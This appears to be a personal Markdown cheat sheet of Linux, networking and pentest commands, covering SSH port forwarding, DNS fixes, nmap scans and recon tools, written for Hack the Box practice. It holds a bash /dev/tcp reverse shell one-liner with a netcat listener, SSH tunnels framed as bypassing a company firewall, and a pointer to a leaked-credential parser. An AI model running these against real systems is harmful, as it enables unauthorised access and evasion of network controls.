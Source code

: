
### Common commands
```sh
$ hostname                   # show or set system's hostname
$  history | grep netstat    # search the command  history
$ cd -                       # navigate to previous directory
$ Ctrl + A                   # navigate to start of command
$ Ctrl + E                   # navigate to the end of command
$_ shell variable            # in bash, is the last argument given to the previous command
!$ shell variable            # in bash, gives the last argument of previous command in the shell history
mkdir -p a/b/c/d/e && cd $_  # create folder and switch to it
$! shell variable            # the PID of the last executed command
du -ch                       # estimate file space usage
su -                         # switch to root user
tar -xvf file.tar            # extract file
```



### Network commands
```sh
$ ifconfig                   # configure/view network interfaces
$ ping -c 5 www.google.com   # ping 5 times
$ arp                        # manipulate the system ARP cache
$ iptables -L -vn            # list iptables rules
$ kill $(lsof -t -i:8080)    # kill any process listening to the port 8080
```


### SSH Port Forwarding

**Local port forwarding:** lets you connect from your local computer to another server.
* **Example1**: you need to connect from your company computer to your home computer,
but the RDP port (3389) is blocked by company firewall 
on the WORK:   ```ssh -L 8181:<home_ip>:3389  <home_ssh_user>@<home_ip>```
then - access RDP connection with localhost:8181 (from WORK)


**Reverse Port Forwarding**: Remote port forwarding lets you connect from the remote SSH server to another server.
* **Example1**: you need to connect from your home computer to your  company computer
on the WORK:   ```ssh -R 8181:localhost:3389  <home_ssh_user>@<home_ip>```
then - access RDP connection with localhost:8181  (from HOME)

Good explanation (from https://unix.stackexchange.com/questions/46235/how-does-reverse-ssh-tunneling-work)
* **local: -L Specifies that the given port on the local (client) host is to be forwarded to the given host and port on the remote side.**
```ssh -L sourcePort:forwardToHost:onPort connectToHost``` means: connect with ssh to ```connectToHost```, and forward all connection attempts to the **local** ```sourcePort``` to port ```onPort``` on the machine called ```forwardToHost```, which can be reached from the ```connectToHost``` machine.


* **remote: -R Specifies that the given port on the remote (server) host is to be forwarded to the given host and port on the local side.**
```ssh -R sourcePort:forwardToHost:onPort connectToHost``` means: connect with ssh to ```connectToHost```, and forward all connection attempts to the **remote** ```sourcePort``` to port ```onPort``` on the machine called ```forwardToHost```, which can be reached from your local machine.


**Dynamic Port forwarding**: Dynamic port forwarding turns your SSH client into a SOCKS proxy server.
* **Example1**: on the work machine there is a filter on the port 80 
```ssh -D 8181 <home_ssh_user>@<home_ip>```
the will need to change Chrome setings to point to the created proxy

**Settings:**
/etc/ssh/sshd_config file
```
AllowTCPForwarding  yes
GatewayPorts  yes
```

### Magic bytes
* https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/
* Example: 
 ```$ echo "GIF8;" > testfile.file```
 ```$ file testfile.file```   # outputs  **testfile.file: GIF image data**



### Hack the box
https://0x00sec.org/t/my-hackthebox-ctf-methodology-from-fresh-box-to-root/13980

**Bach reverse shell**
* https://github.com/fijimunkii/bash-dev-tcp/blob/master/reverse-shell
Example: ```bash -i >& /dev/tcp/10.10.14.150/9001 0>&1```   plus   ```nc -lvnp 9001``` to listen


### DNS configuration issues

**ping: www.google.com: Temporary failure in name resolution**

* https://stackoverflow.com/questions/53687051/ping-google-com-temporary-failure-in-name-resolution
* https://www.tecmint.com/set-permanent-dns-nameservers-in-ubuntu-debian/
 
    On modern Linux systems that use systemd (system and service manager), the DNS or name resolution services are provided to local applications via the systemd-resolved service. 
    It uses the systemd DNS stub file (**/run/systemd/resolve/stub-resolv.conf**) in the default mode of operation.
    The DNS stub file contains the local stub **127.0.0.53** as the only DNS server.
    
    ```ls -l /etc/resolv.conf``` - you will see that this file is a symlink to the /run/systemd/resolve/stub-resolv.conf file.
    Unfortunately, because the /etc/resolv.conf is indirectly managed by the systemd-resolved service, any changes made manually by a user can not be saved permanently or only last for a while.
    
    Quick fix - just to modify the **/etc/resolv.conf** to 8.8.8.8



## Open VPN server
Install and configure 
* https://interface31.ru/tech_it/2019/10/nastroyka-openvpn-servera-dlya-dostupa-v-internet.html  (russian)

**restart**
```
sudo systemctl stop openvpn@server
sudo systemctl enable openvpn@server.service
sudo systemctl start openvpn@server
```


## Start a python2 web server

 ``` python -m SimpleHTTPServer 80```
 
 
 ## Pen Testing
 * **Target validation** - WHOIS, nslookup, dnsrecon
 * **Finding subdomains** - Google Fu, dig, Nmap, Sublist3r, Bluto, crt.sh, etc
 * **Fingerprinting** - nmap, Wappalyzer, BuiltWith, Netcat
 * **Data Breaches** - HaveIBeenPwned and similar
 * **Also** - Nikto, Nessus, Burp Suite, dirbuster, searchsploit, metasploit, 
 * parsing leaked credentials - https://github.com/hmaverickadams/breach-parse

### nmap (press UP key to see the status)
* **TCP**  - SYN - SYN ACK - ACK 
* **nmap** -  SYN - SYN ACK - RST
1. **nmap "ping scan"** - ``` nmap -sn 10.0.2.0/24```  show all the nodes in a network
2. ```nmap -T4 <host>``` - top 1000 widely used ports scanned 
3. ```nmap -T4 -p- <host>``` - all ports scanned 
4. ```nmap -sC -sV -oA output <host>``` - this seems faster 
5. ```nmap -T4 -p22,80,443 <host>``` - selective ports scanned (can add here ```-A``` for more info)
6. ```/usr/share/nmap/scripts``` - nmap usefull scripts (example  ```nmap -p443 --script=ssl-enum-ciphers utm.md```)


